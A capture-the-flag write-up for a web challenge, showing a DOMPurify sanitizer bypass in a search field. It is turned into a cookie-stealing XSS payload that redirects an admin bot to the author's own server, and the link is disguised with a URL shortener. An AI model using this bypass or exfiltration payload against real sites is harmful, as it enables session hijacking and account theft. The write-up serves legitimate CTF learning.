

# Purr-Purr

```
Якщо ви читали "Мистецтво обману" Кевіна Митника, то знаєте яка найбільша вразливість у кібербезпеці.
```

After following the [link](https://purr-purr.ua30ctf.org/) we get the landing page with a frog Mike


The first strange thing i noticed that search button is blocked by the image so i guessed that the exploitation would be related to this. 

After exploring a little bit we can also find the contact button that leads to _/contact.php_ endpoint where we can submit a link to someone, very interesting.


Also in the source code we can __DOMpurify.min.js__ file. For now just taking notes.

So if we can submit a url to someone that will read it, the first thing that comes to mind is vulnerable xss page with attacker's payload, so let's try it with search functionality.


It got completely filtered out. And when we look at the source code we can se DOMpurify.sanitize in action.

The code responsible for that:

```
var searchinput = getURLParameter('searchinput');
// If we have search query
if (searchinput != null && searchinput != "") {

    // You shall not pass
    var clean = DOMPurify.sanitize(searchinput);
    $("#current_search").html(clean);
    //alert(searchinput);
    //alert(clean);
```

I tried several more payloads to see how it behaves but only several html injection payloads seemed to work that would not lead to any vulnerability. So i started to google about DOMPurify bypass and found an [article](http://sergeykish.com/dompurify-bypass). 

I use firefox so i decided to try the first payload.

```
<form><math><mtext></form><form><mglyph><style></math>
```

Now that we have XSS let's modify the payload to steal the cookie of whoever reads our url after the sumbition on the contact page.

```

<form><math><mtext></form><form><mglyph><style></math>
```

Where 10.110.0.3:8000 - our server. I used php, but you could use anything else such as python's module http.server

```
[GMtranscendence] $ php -S 0.0.0.0:8000
[Fri Apr 28 20:11:28 2023] PHP 8.2.5 Development Server (http://0.0.0.0:8000) started
```

And we try to submit the following url that is automatically url encoded after we use the search functionality

```
https://purr-purr.ua30ctf.org/search.php?searchinput=%3Cform%3E%3Cmath%3E%3Cmtext%3E%3C%2Fform%3E%3Cform%3E%3Cmglyph%3E%3Cstyle%3E%3C%2Fmath%3E%3Cimg+src+onerror%3Dwindow.location.href%3D%27http%3A%2F%2F10.110.0.5%3A8000%3Fcookie%3D%27%2Bdocument.cookie%3E
```


After that we can see the response 



Oh no, our link is too suspicious. Let's try to obfuscate it by shortening via bitly.com

```
https://bit.ly/3HpwYFH
```


And submit it again with fingers crossed.

```
[Sat Apr 29 10:29:47 2023] 10.123.45.101:42188 [404]: GET /?cookie=FLAG=ctf%7BEnjoy_The_Silence_aGSKrC7dGcY%7D - No such file or directory
[Sat Apr 29 10:29:47 2023] 10.123.45.101:42188 Closing
```

We got our flag in a request!

## ctf{Enjoy_The_Silence_aGSKrC7dGcY}


